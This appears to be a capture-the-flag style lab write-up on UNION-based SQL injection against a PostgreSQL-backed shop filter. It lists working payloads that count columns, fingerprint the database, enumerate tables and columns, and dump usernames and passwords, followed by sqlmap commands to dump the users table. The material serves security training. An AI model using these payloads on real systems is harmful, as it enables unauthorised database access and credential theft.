



# Listing the database contents on non-Oracle databases

`/filter?category=Gifts'+UNION+SELECT+NULL--`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL--`: Ok (2 columns)

`/filter?category=Gifts'+UNION+SELECT+@@version,+NULL--`: Internal Server Error (not MySQL or MSSQL)

`/filter?category=Gifts'+UNION+SELECT+v$version,+NULL--`: Internal Server Error (not Oracle)

`/filter?category=Gifts'+UNION+SELECT+version(),+NULL--`: Ok (PostgreSQL)


Get tables list:

`/filter?category=Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Users table name is `users_zkpcnl` (suffix is random).

Get users table columns list:

`/filter?category=Gifts'+UNION+SELECT+column_name,+data_type+FROM+information_schema.columns+WHERE+table_name='users_zkpcnl'--`

Users table has two columns: `username_zoeoqs` and `password_etchpd` (suffix is random).

Get users with passwords:

`/filter?category=Gifts'+UNION+SELECT+username_zoeoqs,+password_etchpd+FROM+users_zkpcnl--`


Solved.

## sqlmap

```bash
sqlmap -u $URL/filter?category=Pets --tables
sqlmap -u $URL/filter\?category\=Pets --dump users_mawrbq
```

